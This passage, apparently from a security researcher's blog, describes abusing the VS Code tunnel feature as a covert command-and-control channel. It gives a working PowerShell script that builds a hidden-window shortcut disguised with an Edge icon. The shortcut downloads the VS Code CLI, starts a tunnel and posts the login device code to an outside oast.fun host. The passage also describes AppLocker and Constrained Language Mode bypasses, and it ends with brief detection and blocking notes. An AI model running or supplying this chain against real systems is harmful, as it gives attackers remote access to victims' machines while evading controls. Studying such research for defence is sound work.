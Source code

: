 We can build a shortcut to start the chain. 

```powershell
#Payload
$EXEPath = "$env:windir\System32\WindowsPowerShell\v1.0\powershell.exe"
$pay = 'cd C:\tmp; iwr -uri https://az764295.vo.msecnd.net/stable/97dec172d3256f8ca4bfb2143f3f76b503ca0534/vscode_cli_win32_x64_cli.zip -OutFile vscode.zip; Expand-Archive vscode.zip; cd vscode; .\code.exe tunnel user logout; Start-Sleep 3; Start-Process -FilePath .\code.exe  -ArgumentList "tunnel","--name","Ooooopsie2000" -RedirectStandardOutput  .\output.txt; Start-Sleep 3; iwr -uri cf9dk1w2vtc0000vhr10g8ws3ohyyyyyb.oast.fun -Method Post -Body (Get-Content .\output.txt)'
$arguments = " -nop -c $pay"

#lnk file
$LNKName = 123
$obj = New-Object -ComObject WScript.Shell
$link = $obj.CreateShortcut((Get-Location).Path + "\" + $LNKName + ".lnk")
$link.WindowStyle = '7'
$link.TargetPath = $EXEPath
$link.IconLocation = "C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe,13"
$link.Arguments = $arguments
$link.Save()
```

## PoC Video for the attack Chain
The video is showing an example attack chain via a shortcut and gathering the device code via interact.sh service.

<video src="https://badoption.eu/assets/media/Code_C2/PoC.mp4" controls="controls" style="width:100%; height:100%;">
</video>




If we add some wellknown Applocker bypass paths like C:\Windows\Temp and specify a working directory with `--cli-data-dir` we can also beat a basic Applocker configuration, even with Powershell in Constrained Language Mode (CLM) running by a user without admin privileges.

![](/assets/media/Code_C2/Code_C2_8.png){:width="100%"}
*Applocker and CLM Bypass*

## IOCs & Mitigation

The code binary is spawning a nodejs application and some powershell scripts, which could be detected.
![](/assets/media/Code_C2/Code_C2_Processes.png){:width="100%"}
*Process tree*

The communication is going through `global.rel.tunnels.api.visualstudio.com` as Microsoft stated and via WebSockets, so this can be blocked.
[https://code.visualstudio.com/docs/remote/tunnels](https://code.visualstudio.com/docs/remote/tunnels)
